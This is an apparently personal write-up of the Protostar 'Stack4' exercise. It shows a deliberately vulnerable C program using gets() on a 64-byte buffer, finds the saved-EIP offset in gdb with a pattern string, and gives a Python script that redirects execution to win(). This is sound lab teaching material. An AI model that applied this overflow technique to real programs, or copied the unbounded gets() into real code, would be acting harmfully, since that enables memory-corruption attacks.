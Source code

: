 # [cd ../](../index.md)
# Stack4
> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

> Hints
- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Fuzzing
- Modify the previous exploit we made by make a random padding
  ```
  AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
  ```
- Make a **file** from *output* and use this as **input** str in `gdb`  
```
python stack4.py > stack4_exp
gdb stack4
r < stack4_exp
info registers
```
- We got a segfault  
![segfault](segfault.png)  
- We can see it segfaulted at `ebp` = `0x53535353` this is `S` and `eip` = `0x54545454` and this is character `T`
- Run `objdump -t stack4` and find win `objdump -t stack4 | grep win`
  - `win` is at `080483f4`
- We have to control these so change the code like:  

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR'
ebp = 'AAAA' # ebp - junk
eip = struct.pack('I', 0x080483f4) # eip (win function needs to be here)
print padding+ebp+eip
```

- We have to create a file from the code output now then run in gdb  
`python stack4_2.py > stack4_2_exp`  
![pwned](pwned.png)

# OH YEAH WE GOT IT
